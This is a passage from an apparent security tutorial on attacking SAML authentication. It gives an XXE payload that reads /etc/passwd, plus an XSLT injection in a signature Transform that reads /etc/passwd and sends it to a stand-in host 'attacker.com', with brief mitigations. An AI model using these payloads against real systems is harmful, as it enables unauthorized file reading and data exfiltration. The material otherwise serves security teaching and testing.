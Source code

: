 ```xml
<!DOCTYPE foo [ 
  <!ENTITY xxe SYSTEM "file:///etc/passwd"> 
]>
<samlp:Response>
  <saml:AttributeStatement>
    <saml:Attribute Name="role">
      <saml:AttributeValue>&xxe;</saml:AttributeValue>
    </saml:Attribute>
  </saml:AttributeStatement>
</samlp:Response>
```

✅ **Mitigation**:

- Disable **external entity parsing**.
- Use **secure XML libraries**.

---
## 5.4 Extensible Stylesheet Language Transformation (XSLT) via SAML


**Extensible Stylesheet Language Transformation (XSLT)** is a language used to turn **XML** documents into other formats like **HTML, JSON, or PDF**.

In this attack, XSLT is abused inside a **SAML Response** to try to read files or send data to an attacker — even **without a valid signature**.

> The **XSLT Transform runs _before_ the signature is checked**, so even if the signature is **fake or self-signed**, the attack can still happen.

---

### **How the Attack Works**

1. Intercept a valid **SAML Response** (doesn’t have to be signed by a trusted authority).
    
2. Replace or inject your **XSLT payload** into the ==`<ds:Transform>`== part.
    
3. Use a **Burp Collaborator URL** to catch the outbound call and confirm exploitation.
    

---

### **Example Payload**

```xml
<ds:Signature xmlns:ds="http://www.w3.org/2000/09/xmldsig#">
  ...
  <ds:Transforms>
    <ds:Transform>
      <xsl:stylesheet xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
        <xsl:template match="doc">
          <xsl:variable name="file" select="unparsed-text('/etc/passwd')"/>
          <xsl:variable name="escaped" select="encode-for-uri($file)"/>
          <xsl:variable name="attackerUrl" select="'http://attacker.com/'"/>
          <xsl:variable name="exploitUrl" select="concat($attackerUrl, $escaped)"/>
          <xsl:value-of select="unparsed-text($exploitUrl)"/>
        </xsl:template>
      </xsl:stylesheet>
    </ds:Transform>
  </ds:Transforms>
  ...
</ds:Signature>
```

